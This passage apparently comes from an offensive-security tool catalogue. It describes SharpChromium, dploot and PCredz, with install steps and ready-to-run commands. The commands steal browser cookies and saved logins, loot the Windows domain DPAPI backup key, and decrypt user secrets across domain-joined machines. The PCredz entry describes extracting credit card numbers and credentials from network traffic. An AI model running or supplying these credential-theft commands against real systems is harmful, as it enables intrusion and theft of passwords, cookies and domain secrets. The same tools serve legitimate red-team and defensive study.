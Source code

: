 # Retrieve cookies associated with Google Docs and Github
.\SharpChromium.exe cookies docs.google.com github.com

# Retrieve history items and their associated cookies.
.\SharpChromium.exe history

# Retrieve saved logins (Note: Only displays those with non-empty passwords):
.\SharpChromium.exe logins
image

Image used from https://github.com/djhohnstein/SharpChromium

🔙dploot
DPAPI (Data Protection Application Programming Interface) provides a set of APIs to encrypt and decrypt data where a user password is typically used to set the 'master key' (in a user scenario). So to leverage DPAPI to gain access to certain data (Chrome Cookies/Login Data, the Windows Credential Manager/Vault etc) we just need access to a password.

dploot is Python rewrite of SharpDPAPI written un C# by Harmj0y, which is itself a port of DPAPI from Mimikatz by gentilkiwi. It implements all the DPAPI logic of these tools, but this time it is usable with a python interpreter and from a Linux environment.

Blog - Operational Guidance for Offensive User DPAPI Abuse

Install: (Pip)

pip install dploot
Install: (Git)

git clone https://github.com/zblurx/dploot.git
cd dploot
make
Usage:

# Loot decrypted machine private key files as a Windows local administrator 
dploot machinecertificates -d waza.local -u Administrator -p 'Password!123' 192.168.56.14 -quiet

# Loot the DPAPI backup key as a Windows Domain Administrator (Will allow attacker to loot and decrypt any DPAPI protected password realted to a domain user)
dploot backupkey -d waza.local -u Administrator -p 'Password!123' 192.168.56.112 -quiet

# Leverage the DPAPI backup key `key.pvk` to loot any user secrets stored on Windows domain joined endpoints
dploot certificates -d waza.local -u Administrator -p 'Password!123' 192.168.56.14 -pvk key.pvk  -quiet 
Discovery
🔙PCredz
This tool extracts Credit card numbers, NTLM(DCE-RPC, HTTP, SQL, LDAP, etc), Kerberos (AS-REQ Pre-Auth etype 23), HTTP Basic, SNMP, POP, SMTP, FTP, IMAP, etc from a pcap file or from a live interface.
